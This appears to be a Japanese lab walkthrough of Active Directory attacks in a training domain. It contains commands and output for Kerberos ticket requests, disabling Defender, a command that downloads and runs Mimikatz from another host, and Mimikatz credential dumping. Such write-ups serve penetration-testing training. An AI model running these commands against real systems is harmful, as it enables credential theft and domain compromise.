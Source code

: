 ```
[!] Pre-Authentication required! 
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin 
[*] Using aes256_cts_hmac_sha1 hash: 
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin' 
[*] Target LUID : 17171921 
[*] Using domain controller: 172.16.2.1:88 
[+] TGT request successful! 
[*] base64(ticket.kirbi): doI… 
[snip] 
[+] Ticket successfully imported! 
 
  ServiceName           :  krbtgt/dollarcorp.moneycorp.local 
  ServiceRealm          :  DOLLARCORP.MONEYCORP.LOCAL
  UserName              :  svcadmin 
[snip] 
```

---
3. アクセス確認
```
C:\Windows\system32>winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin

- ユーザ名の確認
winrs -r:dcorp-dc cmd /c whoami

- host名の確認
winrs -r:dcorp-dc cmd /c hostname
```

---
## 悪用3(Derivative Local Admin)
派生ローカル管理を使ってドメイン管理者にエスカレートする必要がある。

## 前提
すでにローカル管理者を取得している必要がある。

---
1. ローカル管理者権限を持つマシンを見つける
```
PS C:\AD\Tools> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1 
PS C:\AD\Tools> Find-PSRemotingLocalAdminAccess 
dcorp-adminsrv 
[snip]
```
---
2. ターゲットのサーバでApplockerが設定されているかどうか、レジストリキーを調べる
前提として、reg.exeの実行が許可されている必要がある。
```
C:\AD\Tools>winrs -r:dcorp-adminsrv cmd 
Microsoft Windows [Version 10.0.20348.1249] 
(c) Microsoft Corporation. All rights reserved. 
C:\Users\studentx>reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 

reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Appx 
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Dll 
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Exe 
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Msi 
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Script 
```
上記はApplocakerの設定やポリシーを管理するために使用されるため、Applockerが有効であると判断できる。


[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 